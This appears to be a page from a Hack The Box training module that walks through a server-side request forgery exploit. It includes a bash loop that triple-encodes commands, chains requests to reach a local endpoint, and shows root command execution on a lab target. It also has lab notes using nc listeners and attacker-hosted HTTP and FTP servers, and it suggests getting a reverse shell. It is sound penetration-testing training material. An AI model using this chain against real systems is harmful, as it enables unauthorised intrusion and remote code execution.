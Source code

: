 **Install JQ**

SSRF Exploitation Example

```shell-session
AIceBear@htb[/htb]$ sudo apt-get install jq
AIceBear@htb[/htb]$ echo "encode me" | jq -sRr @uri
encode%20me%0A
```

We can now create a bash function to automate executing commands on the target application.

**Automate executing commands**

SSRF Exploitation Example

```shell-session
AIceBear@htb[/htb]$ function rce() {
function> while true; do
function while> echo -n "# "; read cmd
function while> ecmd=$(echo -n $cmd | jq -sRr @uri | jq -sRr @uri | jq -sRr @uri)
function while> curl -s -o - "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:5000/runme?x=${ecmd}"
function while> echo ""
function while> done
function> }
```

Now we need to call the function and execute commands via:

SSRF Exploitation Example

```shell-session
AIceBear@htb[/htb]$ rce
# uname -a; hostname; whoami

<html><body><h1>Resource: http://127.0.0.1:5000/runme?x=uname%20-a%3B%20hostname%3B%20whoami
</h1><a>Linux a054d48cc0a4 5.8.0-63-generic #71-Ubuntu SMP Tue Jul 13 15:59:12 UTC 2021 x86_64 GNU/Linux
a054d48cc0a4
root
 </a></body></html>
```

> **Exercise for the reader:** Obtain a fully interactive reverse-shell

**Questions**

Replicate what you learned in this section to gain code execution on the spawned target, then look for the flag in the root directory and submit the contents as your answer.

```bash
curl -i -s http://10.129.221.155
#Location: http://10.129.221.155/load?q=index.html
nc -nvlp 8080
curl -i -s "http://10.129.221.155/load?q=http://10.10.14.52:8080"
#User-Agent: Python-urllib/3.8
#Create a file called index.html
vim index.html
<html>
</body>
<a>SSRF</a>
<body>
<html>
#Start Python HTTP Server
python3 -m http.server 9090
#Start FTP Server
sudo pip3 install twisted
sudo python3 -m twisted ftp -p 21 -r .
#Retrieving a remote file through the target application - FTP Schema
curl -i -s "http://10.129.221.155/load?q=ftp://10.10.14.52/index.html"
```